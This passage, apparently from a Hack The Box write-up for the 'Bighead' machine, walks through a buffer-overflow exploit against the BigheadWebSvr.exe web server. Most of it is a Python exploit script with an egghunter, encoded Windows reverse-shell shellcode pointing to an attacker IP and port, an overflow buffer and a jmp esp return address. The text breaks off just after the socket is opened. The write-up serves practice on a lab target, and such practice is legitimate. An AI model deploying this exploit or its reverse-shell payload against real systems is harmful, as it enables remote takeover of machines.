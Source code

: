 
{% include image.html image_alt="bada8666.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/bada8666.png" %}


Any of the above return addresses will lead us into the egghunter shellcode, which can also be generated by `mona.py`, using `!mona egg -t b33f`


{% include image.html image_alt="3fba1e6a.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/3fba1e6a.png" %}


And since BigheadWebSvr.exe is a multi-threaded application, we can send in as many eggs (the exploit payload) as we want, to increase the stability and chances of the exploit occuring before we send the egghunter. Armed with this knowledge, here's the exploit code.

<div class="filename"><span>exploit.py</span></div>

```python
#!/usr/bin/env python

import os
import socket
import sys

# !mona egg -t b33f
egghunter = (
"6681caff0f42526a0258cd2e3c055a74"
"efb8623333668bfaaf75eaaf75e7ffe7")

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.127 LPORT=8888 EXITFUNC=thread -b '\x00\x0a\x0d\x20\x3d\x3f' -f c
egg = (
"\xb8\x50\x61\x24\x5d\xd9\xe8\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x52\x83\xc3\x04\x31\x43\x0e\x03\x13\x6f\xc6\xa8\x6f\x87\x84"
"\x53\x8f\x58\xe9\xda\x6a\x69\x29\xb8\xff\xda\x99\xca\xad\xd6"
"\x52\x9e\x45\x6c\x16\x37\x6a\xc5\x9d\x61\x45\xd6\x8e\x52\xc4"
"\x54\xcd\x86\x26\x64\x1e\xdb\x27\xa1\x43\x16\x75\x7a\x0f\x85"
"\x69\x0f\x45\x16\x02\x43\x4b\x1e\xf7\x14\x6a\x0f\xa6\x2f\x35"
"\x8f\x49\xe3\x4d\x86\x51\xe0\x68\x50\xea\xd2\x07\x63\x3a\x2b"
"\xe7\xc8\x03\x83\x1a\x10\x44\x24\xc5\x67\xbc\x56\x78\x70\x7b"
"\x24\xa6\xf5\x9f\x8e\x2d\xad\x7b\x2e\xe1\x28\x08\x3c\x4e\x3e"
"\x56\x21\x51\x93\xed\x5d\xda\x12\x21\xd4\x98\x30\xe5\xbc\x7b"
"\x58\xbc\x18\x2d\x65\xde\xc2\x92\xc3\x95\xef\xc7\x79\xf4\x67"
"\x2b\xb0\x06\x78\x23\xc3\x75\x4a\xec\x7f\x11\xe6\x65\xa6\xe6"
"\x09\x5c\x1e\x78\xf4\x5f\x5f\x51\x33\x0b\x0f\xc9\x92\x34\xc4"
"\x09\x1a\xe1\x4b\x59\xb4\x5a\x2c\x09\x74\x0b\xc4\x43\x7b\x74"
"\xf4\x6c\x51\x1d\x9f\x97\x32\x28\x6a\x9b\xe4\x44\x68\xa3\xca"
"\x2c\xe5\x45\x60\x5d\xa0\xde\x1d\xc4\xe9\x94\xbc\x09\x24\xd1"
"\xff\x82\xcb\x26\xb1\x62\xa1\x34\x26\x83\xfc\x66\xe1\x9c\x2a"
"\x0e\x6d\x0e\xb1\xce\xf8\x33\x6e\x99\xad\x82\x67\x4f\x40\xbc"
"\xd1\x6d\x99\x58\x19\x35\x46\x99\xa4\xb4\x0b\xa5\x82\xa6\xd5"
"\x26\x8f\x92\x89\x70\x59\x4c\x6c\x2b\x2b\x26\x26\x80\xe5\xae"
"\xbf\xea\x35\xa8\xbf\x26\xc0\x54\x71\x9f\x95\x6b\xbe\x77\x12"
"\x14\xa2\xe7\xdd\xcf\x66\x07\x3c\xc5\x92\xa0\x99\x8c\x1e\xad"
"\x19\x7b\x5c\xc8\x99\x89\x1d\x2f\x81\xf8\x18\x6b\x05\x11\x51"
"\xe4\xe0\x15\xc6\x05\x21")

stage1 = "b33fb33f" + egg
stage2 = "A" * 72 + "FD125062" + egghunter # 0x625012fd - jmp esp

request = (
"%s /%s HTTP/1.1\r\n"
"Host: dev.bighead.htb\r\n\r\n")

# send stage 1 - egg (1st)
evil = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```